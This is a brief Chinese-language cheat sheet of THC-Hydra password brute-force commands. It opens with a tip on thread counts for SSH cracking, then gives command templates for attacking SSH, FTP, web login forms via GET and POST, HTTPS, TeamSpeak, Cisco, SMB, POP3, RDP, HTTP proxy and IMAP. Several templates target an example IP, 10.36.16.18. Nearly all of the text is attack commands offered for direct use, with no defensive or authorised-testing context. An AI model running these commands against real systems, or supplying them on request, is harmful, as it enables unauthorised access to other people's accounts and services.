 个人建议 爆破ssh使用的线程数是 4~7 个





```javascript
1、破解ssh： 
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip ssh 
hydra -l 用户名 -p 密码字典 -t 线程 -o save.log -vV ip ssh 


2、破解ftp： 
hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV 
hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV 


3、get方式提交，破解web登录： 
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get /admin/ 
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php


4、post方式提交，破解web登录： 
hydra -l 用户名 -P 密码字典 -s 80 ip http-post-form "/admin/login.php:username=^USER^&password=^PASS^&submit=login:sorry password" 
hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form "login.php:id=^USER^&passwd=^PASS^:<title>wrong username or password</title>" 
（参数说明：-t同时线程数3，-l用户名是admin，字典pass.txt，保存为out.txt，-f 当破解了一个密码就停止， 10.36.16.18目标ip，http-post-form表示破解是采用http的post方式提交的表单密码破解,<title>中 的内容是表示错误猜解的返回信息提示。） 


5、破解https： 
hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https 

6、破解teamspeak： 
hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak 

7、破解cisco： 
hydra -P pass.txt 10.36.16.18 cisco 
hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable 

8、破解smb： 
hydra -l administrator -P pass.txt 10.36.16.18 smb 

9、破解pop3： 
hydra -l muts -P pass.txt my.pop3.mail pop3 

10、破解rdp： 
hydra ip rdp -l administrator -P pass.txt -V 

11、破解http-proxy： 
hydra -l admin -P pass.txt http-proxy://10.36.16.18 

12、破解imap： 
hydra -L user.txt -p secret 10.36.16.18 imap PLAIN 
hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN
```

